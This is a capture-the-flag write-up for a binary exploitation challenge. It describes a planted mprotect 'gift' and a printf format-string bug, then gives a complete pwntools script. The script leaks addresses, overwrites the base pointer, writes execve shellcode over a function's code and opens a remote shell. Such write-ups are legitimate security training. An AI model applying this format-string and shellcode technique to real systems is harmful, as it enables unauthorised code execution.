

# Write-What-Where

Note : It goes without mentioning that my solution is a little more complicated & time-consuming debuggin-wise,<br>
but I enjoyed solving it this way, please refer to [the author's original write-up]() for the simpler intended solution.

# Description
The path is clear, but do you know how to get there<br>
Category: PWN<br>
(The code was also provided)

# Why did my mind think this way?

Before solving this challenge, we worked on a reversing challenge that we solved using ChatGPT,<br>
it was just some assembly code comparing the input to the flag char by char, and I noticed that the RBP pointer (and not the RSP pointer)<br>
is the one used to calculate the offset of the buffer in the stack, (I knew this before, but because I saw it again, it registered in the back of my mind)<br>

# Discovery


# Vulnerabilities
First of all, we got this "gift" in the main function:
```c
mprotect((void*)(((unsigned long)&func >> 12) << 12),0x1000,PROT_READ | PROT_WRITE | PROT_EXEC); //This is a gift for you
```
In memory, for security purposes, there is no segment where the process has both write and execute permissions<br>
and here, this line is making the code segment both writeable and executable (it'a only readable & executable by default"

so we can overwrite the code of any function from the binary with our shellcode<br>
And to accomplish that, there is a format-string vulnerbility in the print_name function
```c
void print_name(char name[NAME_SIZE]){
    printf(name); // format string :)
}
```

# TL;DR

1 Overwrite the RBP pointer using the format-string, to make it point to the menu function in the code segment<br>
2 Use the get_name function to overwrite the menu function code in the code segment with our shellcode.<br>
3 When the menu function gets executed in the next loop iteration, a shell will be poped instead :)<br>

# Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chall")
context.binary = exe

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

def conn():
    return remote("write-what-where.ctf.shellmates.club", 443, ssl=True)


def main():
    for i in range(10):
        r = conn()

        # Leaking stack & code addresses
        r.recvuntil(b'Choice')
        r.sendline(b'1')
        r.sendline(b'%7$p\n%9$p')
        r.recvuntil(b'Choice:')
        r.sendline(b'2')
        rbp_addr = int(r.recvline().strip(), 16)  - 0x30
        menu_addr = int(r.recvline().strip(), 16) - 3
        log.info(f"Leaking base pointer address :: {hex(rbp_addr)}")
        log.info(f"Leaking menu function address :: {hex(menu_addr)}")

        r.recvuntil(b'Choice')
        r.sendline(b'1')

        # forming the format-string payload
        left = (menu_addr >> 32) - 12 #12 'a' at the start of the payload
        log.info(f"First 2 most significant bytes to overwrite :: {hex(left)}")
        right = (menu_addr & 0xffffffff) - left #offset of aaaaaa and already written bytes
        log.info(f"last 4 least significant bytes to overwrite :: {hex(right)}")

        payload = f'aaaaaaaaaaaa%{str(left)}c%19$n%{str(right)}c%20$n'
        log.info(f"Format-string payload :: {payload}")
        if len(payload) != 40: # check to make sure for address are aligned in memory
            log.info(f"Bad payload length :: {len(payload)}. Retrying ...\n")
            print(payload)
            r.close()
            continue

        # overwriting the RBP pointer with a menu function pointer (minus some offset)
        log.info(f"Sending format-string payload, please wait ...")
        r.sendline(flat(b'aaaaaaaaaaaa%', bytes(str(left), 'utf-8'), b'c%19$n%', bytes(str(right), 'utf-8'), b'c%20$n', p64(rbp_addr+4), p64(rbp_addr)))
        r.recvuntil(b'Choice:')
        r.sendline(b'2')

        # Overwriting menu function code with shellcode using get_name option
        r.recvuntil(b'Choice:')
        log.info(f"Overwriting menu function code with shellcode, here is your shell ;)\n")
        r.sendline(b'1')
        r.sendline(flat(shellcode))
        r.recvuntil(b'Name:')
        r.interactive()
        break


if __name__ == "__main__":
    main()
```
# Flag from tty

I ran my exploit on my second thinkpad (that had only arch installed with no display manager, because my main laptop was acting up)

